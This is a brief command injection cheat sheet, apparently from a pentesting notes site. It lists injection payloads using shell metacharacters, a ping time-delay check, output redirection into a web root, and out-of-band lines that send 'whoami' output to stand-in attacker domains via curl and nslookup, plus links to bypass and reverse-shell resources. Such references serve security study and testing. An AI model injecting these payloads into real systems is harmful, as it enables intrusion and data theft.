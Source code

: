 ```yaml
---
title: "OS command injection"
weight: 18
description: "Learn about OS command injection vulnerabilities, detection methods, and exploitation techniques. Understand how to bypass restrictions and use metacharacters for injecting commands in both Windows and Unix systems."
---
```


# OS command injection

## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

3. Open a shell

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```

## Identify CMD or PowerShell

To determine whether commands are executed by PowerShell or CMD, use this snippet:

```cmd
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Reverse Shell Generator

https://www.revshells.com/